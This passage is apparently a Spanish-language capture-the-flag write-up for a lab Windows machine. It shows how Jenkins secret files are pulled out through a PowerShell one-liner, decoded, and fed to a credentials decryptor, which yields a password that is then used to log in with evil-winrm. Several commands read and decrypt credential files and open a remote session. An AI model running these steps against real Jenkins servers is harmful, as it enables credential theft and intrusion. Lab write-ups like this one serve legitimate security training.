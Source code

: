 Así que vamos a la carpeta secrets que habíamos visto anteriormente y aquí encontramos los 2 primeros archivos. Hacemos un cat a master.key, creamos el archivo en nuestra máquina, copiamos el interior pero ojo, ya que si trae un salto de línea nos puede fallar. Así que revisamos antes:

```bash
xxd master.key
```

Vemos que sí tiene salto de línea, se los sacamos:

```bash
cat master.key | tr -d '\n' | sponge master.key
```

Se puede ver que está encodeado, así que buscamos en Google algún script de PowerShell para convertir el archivo a formato de cadena Base64. Copiamos el oneline, lo agregamos al código y lo modificamos un poco. Quedaría así:

```powershell
cmd /c powershell -c [convert]::ToBase64String((cat ../../secrets/hudson.util.Secret -Encoding byte))
```

La salida la decodificamos en el archivo hudson:

```bash
echo "gWFQFlTxi+xRdwcz6KgADwG+rsOAg2e3omR3LUopDXUcTQaGCJIswWKIbqgNXAvu2SHL93OiRbnEMeKqYe07PqnX9VWLh77Vtf+Z3jgJ7sa9v3hkJLPMWVUKqWsaMRHOkX30Qfa73XaWhe0ShIGsqROVDA1gS50ToDgNRIEXYRQWSeJY0gZELcUFIrS+r+2LAORHdFzxUeVfXcaalJ3HBhI+Si+pq85MKCcY3uxVpxSgnUrMB5MX4a18UrQ3iug9GHZQN4g6iETVf3u6FBFLSTiyxJ77IVWB1xgep5P66lgfEsqgUL9miuFFBzTsAkzcpBZeiPbwhyrhy/mCWogCddKudAJkHMqEISA3et9RIgA=" | base64 -d > hudson.util.Secret
```

Listo, tenemos el archivo hudson. Con todos los archivos podemos hacer funcionar el decryptor:

```bash
./jenkins-credentials-decryptor -m master.key -s hudson.util.Secret -c config.xml
```

Nos da como salida:

```json
{
  "id": "320a60b9-1e5c-4399-8afe-44466c9cde9e",
  "password": "c1cdfun_d2434\u0003\u0003\u0003",
  "username": "oliver"
}
```

## Acceso Inicial

Luego con WinRM:

```bash
sudo evil-winrm -i 10.10.11.132 -u 'oliver' -p 'c1cdfun_d2434'
```

Listo, buscamos la flag. Según comentarios es una máquina realista. Dentro de PowerShell para ver los usuarios lanzamos:

